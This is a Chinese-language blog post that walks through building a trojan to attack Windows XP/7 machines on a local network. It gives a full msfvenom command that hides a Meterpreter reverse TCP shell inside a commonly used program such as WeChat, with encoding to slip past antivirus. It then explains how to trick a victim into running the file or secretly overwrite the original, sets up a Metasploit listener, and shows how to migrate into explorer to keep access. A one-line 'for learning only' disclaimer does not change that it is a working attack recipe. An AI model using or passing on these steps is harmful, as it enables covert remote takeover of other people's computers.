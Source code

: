 ```yaml
---
layout: post
title: 制造含有连接会话的木马软件来攻击Windows
tags: linux windows
---
```


### 前言

哈喽大家好。我又好久没更新博客了。

前一段时间我的电脑被我爸移到~~其他地方~~办公室去了。好端端的为什么会移到办公室呢？我也不知道...

然后我去插那边的网线，结果插上是插上了，电脑上也写着连接了，有因特访问。可是我进百度却进半天都没进去，竟然还连接超时，气死我了。

我请人看了，说是我电脑的问题，叫我装双系统。OK，装了还是没用啊啊啊

不过现在没事了，我用上了WIFI网卡。
  
### 准备材料

- Kali电脑一台

- 没装防火墙和360卫士或防火墙不稳定的电脑一部

  - 搭载WinXP或Win7

  - 可以是笔记本或台式机

### 开始前

我们要利用一些我们很常见的一些软件，然后把连接会话藏到这些软件里面，来达到攻击的效果。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。

但现在我们有了360安全卫士啊，电脑管家啊，那些杀毒软件就变得安全多了。对于我来讲，This is a LITTLE problem。

But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽]。

**注意！该教程仅用于学习，不可用于违法等行为！如有问题本人不负责！**

### 01.编译软件

我们先找找，有什么程序是我们经常用的（或者是被攻击机的机主经常用的），比如，浏览器？office？

先提取机主经常使用的软件的主程序（也就是快捷程序所指向的主程序）。

然后把它发送到kali主机（攻击机）上，这里建议放在`~/`。

然后在kali命令行里输入这段命令:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%你kali机器ip网址是啥来着% LPORT=4444 -x %那个主程序的文件名% -e x86/jmp_call_additive -i 4 -k -f exe > %新的文件名%
```

`LHOST=`后面接你的ip网址

`LPORT`是指你的Kali电脑的端口。随情况而定

`-x`是指那个主程序的名字，如果你的命令行的指向定位是在`~/`则寻找在同一个目录的文件。

`>`后面可以稍微更改一下文件名和保存的路径，比如之前主程序是在`~/wechat.exe`，则可以更改为`~/Document/wechat.exe`。为了不被之前的文件覆盖，建议更改目录。

以上命令根据源进行修改和添加。

### 02.打开或修改

把生成完成的文件发给在同一个局域网的用户（而且要确定这个受害者的IP地址是固定的要不然会出现攻击了其他人ww），并指示受害者打开。前提是要关掉杀毒软件。

或者是趁人不在的时候修改覆盖掉原来的文件。（如果安装了杀毒软件的话要添加例外）

否则..

![]({{ site.imgbed }}/img/kalihack/06.png)

### 03.设置内容并等待受害者打开文件

差不多了！回到你的Kali电脑前然后打开Msfconsole，按照以下内容输入命令==

```msf
use exploit/multi/handler
//表示使用活动指向的监听器

set LHOST 192.106.12.175
//设置本机ip

set LPORT 4444
//设置本机端口

set payload windows/meterpreter/reverse_tcp
//设置载荷为*比较开放的tcp*

exploit
//开启监听
```

注意，受害者打开所谓的应用后你才会开启监听进入`meterpreter`命令提示符的shell。

如果受害者使用完应用后可能会关闭。关闭后，你将无法继续使用`meterpreter`。怎么办呢？我们需要**注入进程**！

### 注入进程

在进入`meterpreter`提示符后输入

```msf
ps
```

来查看进程，注意一个进程为`explorer`的内容，记下它的`pid号`。

![]({{ site.imgbed }}/img/kalihack/07.png)

![]({{ site.imgbed }}/img/kalihack/08.png)

这里，`explorer`的*pid*是`4560`.

融进`explorer`！

![]({{ site.imgbed }}/img/kalihack/09.png)
